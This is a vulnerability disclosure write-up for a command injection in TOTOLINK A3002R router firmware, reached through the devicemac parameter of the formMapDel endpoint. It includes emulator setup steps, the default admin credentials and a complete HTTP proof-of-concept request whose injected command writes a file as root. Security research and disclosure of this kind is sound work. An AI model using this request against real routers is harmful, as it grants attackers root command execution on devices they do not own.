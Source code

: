 ## Description

A remote code execution vulnerability was discovered in the TOTOLINK A3002R firmware version V4.0.0-B20230531.1404. The vulnerability exists in the `FUN_00459fdc` function, which improperly sanitizes user input before passing it to a `system()` call. This allows an attacker to inject arbitrary commands that will be executed with root privileges on the device.

## Affected Product

- ​**Brand**: TOTOLINK
- ​**Product**: A3002R
- ​**Version**: V4.0.0-B20230531.1404

The firmware can be downloaded from this [website]([https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/258/ids/36.html)) and using FirmAE to simulate the router environment.   The command is

```shell
sudo ./run.sh -d TOTOLINK ../FIRMWARE/TOTOLINK_A3002R_Ge_V4_0_0_B20230531_1404.web
```

The default username is 'admin', password is 'admin'.
The result of the simulation is as follows: 

![[sim_res.png]](./img/sim_res.png)
## Vulnerability Analysis

The vulnerable code constructs a command string using unsanitized user input (`devicemac%d` parameter) and passes it directly to the `system()` function. Using ghidra we can find the code below in function `FUN_00459fdc`:

![[work_record/TOTOLINK/2/img/code_1.png]](./img/code_1.png)

sink point:
![[sink.png]](./img/sink.png)

The lack of input validation allows command injection through the `devicemac%d` parameter. An attacker can break out of the intended command structure and execute arbitrary commands by including shell metacharacters.

Furthermore, through analysis of the function `FUN_0040f2b4` using Ghidra, we determined that the function's purpose is to obtain the value of the parameter with the specified name in the POST.

The details of the function as follows:

* **Address**: 00459fdc
* **Function**: FUN_00459fdc
* **Parameter**: devicemac%d

## Proof of Concept (PoC)

Through ghidra we can find that this function is triggered by action 'formMapDel', so we use burpsuite to capture a normal POST packet to obtain the sessionCheck parameter for authentication and modify the packet.
Here we set the parameter `deviceNum`=2 and `enabled1`=ON to ensure the vulnerable code being excuted.
The following HTTP request demonstrates command injection that creates a file in the root directory:

```http
POST /boafrm/formMapDel HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 101
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/wlsecurity.htm?t=1744618117722

sessionCheck=a6bdaa17dd6b63a74eb809d6fa1fc2f1&deviceNum=2&enabled1=ON&devicemac1=;echo "poc">/poc.txt
```

The result of the POC is as follows. You can execute any command you want, here we create a poc.txt file with the content "poc" in the root directory.

![[burp.png]](./img/burp.png)

In the FirmAE terminal, we check whether the command is executed successfully. We can see that the command is executed successfully and the poc is written into the poc.txt file.

![[res.png]](./img/res.png)
